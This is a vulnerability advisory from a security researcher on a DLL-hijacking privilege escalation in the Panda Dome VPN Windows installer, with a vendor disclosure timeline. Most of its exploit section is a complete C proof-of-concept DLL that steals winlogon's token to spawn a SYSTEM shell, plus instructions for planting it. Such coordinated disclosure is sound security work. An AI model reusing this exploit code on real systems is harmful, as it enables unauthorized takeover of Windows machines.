 ```yaml
---
title : "Local privilege escalation in Panda Dome VPN for Windows Installer"
excerpt: "Local privilege escalation in Panda Dome VPN for Windows Installer"

categories:
    - "0-day"
tags:
    - [Panda Security, 0-day, CVE, EoP, Mitre, LPE]
---
```



## 0x01: Details

- Title: Local privilege escalation in Panda Dome VPN for Windows Installer
- CVE ID: None
- Vendor ID : None
- Advisory Published: 2023/07/05
- Advisory URL : [https://www.pandasecurity.com/en/support/card?id=100080](https://www.pandasecurity.com/en/support/card?id=100080)

## 0x02: Test Environment

Panda Dome Version : 21.01.00

OS : Windows 10 Pro 64-bit 21H2 (build 19044.1826)

## 0x03: Vulnerability details

Vulnerability that allows a local attacker to gain SYSTEM privileges by exploiting administrator privileges, and that enables the server thread to perform actions on behalf of the client, but within the limits of the client's security context.

## 0x04: Technical description

Many DLLs are loaded from the directory where the Panda Security VPN installer file PANDAVPN.exe is located. If these DLLs are not in the directory, DLLs are loaded from the `C:\Windows\SysWOW64` directory. Among these Dlls, `TextShaping.dll` is loaded, and this DLL load is done with Administrator privileges. So, by placing `TextShaping.dll` in the directory where the Panda Security VPN installer file is located, you can gain SYSTEM privileges by abusing Administrator privileges.

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
			exploit();
			exit(-1);
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

1. Use Visual Studio 2019.
2. Compile the project in the DLL directory in x86 Release mode.
3. Rename the compiled dll to `TextShaping.dll` and place it in the same directory as PANDAVPN.exe.
4. Run `PANDAVPN.exe` to perform Panda Security VPN installation.

## 0x06: Affected Products

This vulnerability affects the following product:

- Panda Security VPN Version < 15.14.8

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/08/01 : First time contacted via Panda Security Email(secure@pandasecurity.com).
- 2022/08/10 : I recevied a file which is patched via Panda Security.
- 2023/07/05 : The vulnerability has been patched, and I have been notified that the vulnerability has been disclosed.
- 2023/07/09 : Request a CVE id via MITRE.

## 0x09: Reference

- [https://www.pandasecurity.com/en/homeusers/vpn/](https://www.pandasecurity.com/en/homeusers/vpn/)
- [https://www.pandasecurity.com/en/support/card?id=100080](https://www.pandasecurity.com/en/support/card?id=100080)